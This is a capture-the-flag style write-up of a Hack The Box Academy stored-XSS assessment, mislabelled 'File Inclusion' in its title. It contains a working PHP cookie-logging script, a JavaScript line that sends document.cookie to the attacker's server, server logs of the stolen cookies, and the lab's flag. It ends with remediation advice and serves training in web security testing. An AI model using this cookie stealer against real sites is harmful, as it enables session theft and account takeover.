



# Write-up: File Inclusion

| Vulnerability | Difficulty | Platform | Key concepts |
| :--- | :--- | :--- | :--- |
| Cross-Site Scripting | Easy | Hack The Box Academy | Session Hijacking, Blind XSS Detection |

---

# Context
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new Security Blog. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the /assessment directory on the server using the browser:


Apply the skills you learned in this module to achieve the following:

Identify a user-input field that is vulnerable to an XSS vulnerability
Find a working XSS payload that executes JavaScript code on the target's browser
Using the Session Hijacking techniques, try to steal the victim's cookies, which should contain the flag

# Exercise

What is the value of the 'flag' cookie?

# Process
## Step 1 "Search Vulnerable Field"
I started by searching for a vulnerable field, in the blogs you can leave a comment so I decided to try here.


I also notice that comments must be approved first, so I will not see the result of my payload until someone approves my comment.
> (Note: comments must be approved by an admin, so submitting them may take a few seconds.)

in this case we need to send a payload that calls a server on our side to see if the payload worked.

## Step 2 "Sending payload to internal server"
The next thing we need to do is start a simple server to receive calls:
```ps
┌─[delmed@parrot]─[/tmp/tmpserver]
└──╼ $ifconfig tun0
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.68  netmask 255.255.254.0  destination 10.10.15.68
        inet6 fe80::4e3c:eb7e:64ad:9178  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1142  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 76  bytes 51024 (49.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 83  bytes 8601 (8.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

┌─[delmed@parrot]─[/tmp/tmpserver]
└──╼ $sudo php -S 10.10.15.68:8080
[sudo] password for delmed: 
[Wed Sep 17 15:34:39 2025] PHP 8.2.29 Development Server (http://10.10.15.68:8080) started
```
then we can send our payload in all fields (except for those that require a format) to discover which field is vulnerable.


After sending the comment we should receive a call in our server:
```ps
┌─[delmed@parrot]─[/tmp/tmpserver]
└──╼ $sudo php -S 10.10.15.68:8080
[sudo] password for delmed: 
[Wed Sep 17 15:34:39 2025] PHP 8.2.29 Development Server (http://10.10.15.68:8080) started
[Wed Sep 17 16:21:07 2025] 10.129.36.50:55708 Accepted
[Wed Sep 17 16:21:07 2025] 10.129.36.50:55710 Accepted
[Wed Sep 17 16:21:07 2025] 10.129.36.50:55708 [200]: GET /website
[Wed Sep 17 16:21:07 2025] 10.129.36.50:55708 Closing
[Wed Sep 17 16:21:07 2025] 10.129.36.50:55710 Closed without sending a request; it was probably just an unused speculative preconnection
[Wed Sep 17 16:21:07 2025] 10.129.36.50:55710 Closing
```
In this case we got `/website`, that means that is the vulnerable field.

## Step 3 "Create cookie stealer files"
We first need to create a PHP file that saves the victim IP and the cookie:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
then we need to create a script.js file that executes the index file:
```ps
┌─[delmed@parrot]─[/tmp/tmpserver]
└──╼ $cat script.js 
new Image().src='http://10.10.15.68:8080/index.php?c='+document.cookie
```

## Step 4 "Getting the flag"
Once we have everything configured we can send the payload to execute the `script.js` through the website field.


After that we will get the cookie in the server log:
```ps
┌─[delmed@parrot]─[/tmp/tmpserver]
└──╼ $sudo php -S 10.10.15.68:8080
[sudo] password for delmed: 
[Wed Sep 17 16:29:08 2025] PHP 8.2.29 Development Server (http://10.10.15.68:8080) started
[Wed Sep 17 16:30:20 2025] 10.129.36.50:55862 Accepted
[Wed Sep 17 16:30:20 2025] 10.129.36.50:55862 [200]: GET /script.js
[Wed Sep 17 16:30:20 2025] 10.129.36.50:55862 Closing
[Wed Sep 17 16:30:21 2025] 10.129.36.50:55864 Accepted
[Wed Sep 17 16:30:21 2025] 10.129.36.50:55864 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1758169743;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
[Wed Sep 17 16:30:21 2025] 10.129.36.50:55864 Closing
```
Or we can see the information in the `cookies.txt` created by the `index.php`:
```ps
┌─[delmed@parrot]─[/tmp/tmpserver]
└──╼ $cat cookies.txt 
Victim IP: 10.129.36.50 | Cookie: wordpress_test_cookie=WP Cookie check
Victim IP: 10.129.36.50 | Cookie:  wp-settings-time-2=1758169743
Victim IP: 10.129.36.50 | Cookie:  flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
```

## Result
```
HTB{cr055_5173_5cr1p71n6_n1nj4}
```

# Conclusion
A stored Cross-Site Scripting (XSS) vulnerability exists in the blog’s comment feature and allowed JavaScript to execute in an admin’s browser. Using a simple cookie-exfiltration payload I retrieved the `flag` cookie value: `HTB{cr055_5173_5cr1p71n6_n1nj4}`. This flaw enables session theft, admin account takeover, and persistent site compromise. Remediation: apply proper output encoding, sanitize user input, mark sensitive cookies `HttpOnly`, and enforce a strict Content Security Policy.
